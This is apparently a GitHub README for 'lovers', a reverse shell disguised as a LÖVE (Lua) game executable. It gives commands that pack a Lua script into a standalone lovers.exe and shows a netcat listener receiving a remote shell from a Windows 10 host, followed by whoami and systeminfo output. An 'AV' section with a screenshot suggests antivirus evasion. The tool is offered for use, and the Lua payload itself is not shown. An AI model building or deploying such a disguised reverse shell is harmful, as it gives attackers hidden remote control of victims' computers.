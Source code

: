 # lovers

portable LÖVE (basically packaged lua) reverse shell

https://love2d.org/

Using non-interactive lua reverse shell

https://gtfobins.github.io/gtfobins/lua/

**Deploy** 

https://love2d.org/#download

**Pack**
```
zip -9 -r lovers.love main.lua
cat love.exe lovers.love > lovers.exe
```

```
WOPR@WOPR webassembly % nc -v -l 9999                            
whoami
windev1910eval\user
systeminfo

Host Name:                 WINDEV1910EVAL
OS Name:                   Microsoft Windows 10 Enterprise Evaluation
OS Version:                10.0.18362 N/A Build 18362
```

**AV**

<img width="1328" alt="Screenshot 2019-12-09 at 08 59 14" src="https://user-images.githubusercontent.com/56988989/70424135-c3ab6f00-1a66-11ea-859e-b8432f7dc44b.png">


Enjoy~
